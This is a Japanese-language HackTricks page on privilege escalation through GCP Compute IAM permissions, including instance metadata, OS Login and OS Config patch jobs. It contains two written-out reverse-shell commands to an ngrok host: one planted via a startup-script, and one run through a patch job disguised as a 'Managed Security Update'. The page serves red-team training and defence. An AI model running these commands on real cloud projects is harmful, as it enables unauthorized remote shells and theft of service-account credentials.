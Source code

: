 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCPにおけるComputeとVPC（ネットワーク）に関する詳細情報は、以下を確認してください：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
インスタンスのメタデータを変更する必要があるすべての特権昇格攻撃（新しいユーザーやSSHキーの追加など）を実行するには、**インスタンスに添付されたSAに対して`actAs`権限を持っている必要があります**。たとえSAがすでに添付されていてもです！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

この権限を持つことで、**インスタンス**の**メタデータ**情報を**変更**し、**ユーザーの認証キーを変更**したり、**sudo**権限を持つ**新しいユーザーを作成**することができます。したがって、任意のVMインスタンスにSSHで接続し、そのインスタンスが実行しているGCPサービスアカウントを盗むことができます。\
制限事項：

* GCPサービスアカウントは、VMインスタンスでデフォルトで**非常に限られたスコープ**を持っています。
* ログインするために**SSHサーバーに連絡できる必要があります**。

この権限を悪用する方法についての詳細情報は、以下を確認してください：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

新しいスタートアップスクリプトを追加し、インスタンスを再起動することでこの攻撃を実行することもできます：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

この権限は、**前の権限と同じ特権を与えますが**、プロジェクト全体ではなく特定のインスタンスに対して適用されます。**前のセクションと同じ脆弱性と制限が適用されます**。

### `compute.instances.setIamPolicy`

この種の権限は、**前の権限を持つ役割を自分に付与することを可能にし**、それを悪用して特権を昇格させることができます。

### **`compute.instances.osLogin`**

**OSLoginがインスタンスで有効になっている場合**、この権限を使用して**`gcloud compute ssh [INSTANCE]`**を実行し、インスタンスに接続できます。インスタンス内では**root権限はありません**。

{% hint style="success" %}
この権限を使用してVMインスタンス内に正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### **`compute.instances.osAdminLogin`**

**OSLoginがインスタンスで有効になっている場合**、この権限を使用して**`gcloud compute ssh [INSTANCE]`**を実行し、インスタンスに接続できます。インスタンス内では**root権限があります**。

{% hint style="success" %}
この権限を使用してVMインスタンス内に正常にログインするには、VMにアタッチされたSAに対して`iam.serviceAccounts.actAs`権限を持っている必要があります。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**サービスアカウントが割り当てられた仮想マシンを作成し、メタデータにアクセスしてトークンを盗む**ことが可能です。これにより、特権を昇格させることができます。

この方法のためのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)で見つけることができます。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`**または**`osconfig.patchJobs.exec`**権限を持っている場合、[**パッチジョブまたはデプロイメント**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)を作成できます。これにより、環境内で横移動し、プロジェクト内のすべてのコンピュートインスタンスでコード実行を得ることができます。

現在、インスタンスにアタッチされたSAに対して**`actAs`権限は必要ありません**。

手動でこれを悪用したい場合は、[**パッチジョブ**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **または** [**デプロイメント**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**を作成する必要があります。**\
パッチジョブを実行するには： 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

パッチデプロイメントを展開するには：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
ツール [patchy](https://github.com/rek7/patchy) は、この誤設定を悪用するために過去に使用されていました（しかし、現在は動作していません）。

**攻撃者はこれを持続性のために悪用することもできます。**

### `compute.machineImages.setIamPolicy`

**コンピュートイメージに対して追加の権限を付与します。**

### `compute.snapshots.setIamPolicy`

**ディスクスナップショットに対して追加の権限を付与します。**

### `compute.disks.setIamPolicy`

**ディスクに対して追加の権限を付与します。**

### アクセススコープのバイパス

このリンクをたどると、[**アクセススコープをバイパスするためのアイデア**](../)が見つかります。

### GCPコンピュートインスタンスにおけるローカル特権昇格

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
